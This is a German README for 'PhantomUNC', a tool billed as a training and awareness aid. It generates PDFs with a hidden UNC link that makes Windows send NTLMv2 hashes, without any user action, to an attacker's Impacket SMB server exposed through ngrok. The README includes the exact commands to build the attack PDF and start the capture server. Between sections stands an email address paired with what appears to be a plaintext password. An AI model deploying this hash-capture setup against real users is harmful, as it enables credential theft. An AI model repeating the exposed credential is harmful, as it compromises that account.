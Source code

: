# 🕵️ PhantomUNC – PDF & SMB NTLM Trigger Tool

**PhantomUNC** ist ein Schulungs- und Awareness-Tool zur Demonstration von Windows-Netzwerkschwachstellen.  
Es zeigt, wie ein PDF durch einen versteckten **UNC-Link** automatisch einen NTLMv2-Hash auslöst.

---
projekteit@mlgruppe.de
tvPsg4BZr0ftQW9M
## 🚀 Features

- 📄 Erstellt eine **PDF-Datei mit einem unsichtbaren UNC-Link**
- 📡 Startet einen **SMB-Server (Impacket-basiert)** zur Aufnahme eingehender Authentifizierungen
- 🌍 **ngrok-Integration**, um SMB über das Internet verfügbar zu machen
- 🧾 Zeichnet **NTLMv2-Hashes in Logdateien** auf
- 📦 Inklusive **.deb-Installer**, PDF-Anleitung & Manpage

---

## 🎯 Beispielhafte Nutzung

### 📄 Nur PDF erzeugen:
```bash
phantomunc --build-pdf -in Original.pdf -out Angriff.pdf -D Output/
```

### 🌐 Komplettsetup: PDF + SMB-Server + ngrok

```bash
phantomunc --build-pdf -in Original.pdf -out Angriff.pdf -D Output/ --run-server --use-ngrok
```
👉 Danach wird eine PDF generiert, die – beim Öffnen – versucht \\<SMB-Host>\share zu erreichen
🧠 Windows schickt dabei NTLMv2-Hashdaten automatisch, ohne dass der Benutzer etwas tun muss.

